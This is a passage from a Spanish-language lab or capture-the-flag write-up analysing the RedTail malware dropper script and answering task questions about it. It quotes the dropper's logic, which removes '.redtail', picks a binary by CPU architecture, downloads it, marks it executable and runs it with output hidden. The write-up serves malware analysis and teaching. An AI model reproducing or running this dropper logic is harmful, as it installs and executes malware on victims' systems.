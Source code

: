 Esto trata de encontrar un directorio donde el script pueda:

    - Cambiarse (cd),
    - Crear un archivo pequeño (.testfile),
    - Crear un archivo de 2 MiB (usando dd o truncate).

Las variables:
    - OK=true asume que hay un directorio válido; si ninguno sirve, luego cambiará a false.

-----

<h3 style="color: #9FEF00;"> Task 7. What is the full command that the script uses to identify the CPU architecture? </h3>

Esto lo vemos en el siguiente fragmento: 

```bash 
rm -rf .redtail
if [ $ARCH es x86_64 ]; then
  dlr x86_64 && mv x86_64 .redtail
elif [ $ARCH es i386/486/586 ]; then
  dlr i686 && mv i686 .redtail
elif [ $ARCH es arm64 ]; then
  dlr aarch64 && mv aarch64 .redtail
elif [ $ARCH es armv7 ]; then
  dlr arm7 && mv arm7 .redtail
else
  OK=false
  # Intentos con todos los binarios
  for a in x86_64 i686 aarch64 arm7; do
    dlr $a
    cat $a >.redtail
    chmod +x .redtail
    ./.redtail $1 >/dev/null 2>&1
    rm -rf $a
  done
fi
```

El comando uname -mp en Linux muestra información sobre el tipo de procesador y la arquitectura de la máquina

- -m imprime el nombre de la máquina o arquitectura del sistema
- -p imprime el tipo de procesador

----

<h3 style="color: #9FEF00;"> Task 8. What is the name of the file that is downloaded after the CPU architecture is compared with reference values? </h3>

Esto lo podemos ver en los ficheros descargados, vemos que se trata de una x86_64:
